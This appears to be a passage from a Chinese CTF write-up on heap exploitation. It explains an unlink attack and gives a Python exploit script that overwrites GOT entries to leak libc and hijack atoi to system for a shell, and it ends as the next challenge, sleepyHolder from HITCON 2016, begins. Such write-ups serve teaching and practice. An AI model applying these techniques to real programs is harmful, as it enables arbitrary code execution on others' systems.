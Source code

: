 此时我们 `edit(1)` 写入 `elf.plt['puts']` 即可劫持 `free` 函数到 `puts`，那么调用 `delete(2)` 就会打印出 `fflush` 地址，从而泄露 libc。最后 `edit(3)` 写入 `system` 地址，劫持 `atoi` 到 `system`，这是因为在程序读入指令时会调用 `atoi(&nptr)`，我们输入的 `nptr` 只需要是 `/bin/sh` 即可 getshell。


```python
def add(size):
	sl('1')
	sl(str(size))
	ru('OK\n')

def delete(index):
	sl('3')
	sl(str(index))

def edit(index,content):
	sl('2')
	sl(str(index))
	sl(str(len(content)))
	s(content)
	ru('OK\n')

bag = 0x602140

add(0x80)
add(0x80)
add(0x80)
fd = bag+0x10-0x18
bk = bag+0x10-0x10
payload = flat(0,0x80,fd,bk).ljust(0x80,'a')
payload += flat(0x80,0x90)
edit(2,payload)
delete(3)

# bag[2] <-> bag[-1]
payload = flat('a'*0x10,elf.got['free'],elf.got['fflush'],elf.got['atoi'])
edit(2,payload)
edit(1,p64(elf.plt['puts']))
delete(2) # puts(GOT[fflush])
ru('OK\n')
fflush = uu64(r(6))
leak('fflush',fflush)
system,binsh = ret2libc(fflush,'fflush')
edit(3,p64(system))
sl('/bin/sh\x00')
```

## Part III

### sleepyHolder_hitcon_2016
这道题允许保存 small/big/huge secret，其中 huge 只能保存一次，不能删除和修改，并且在保存了一个 small/big 之后就不能再保存新的 small/big 了，只能 renew。
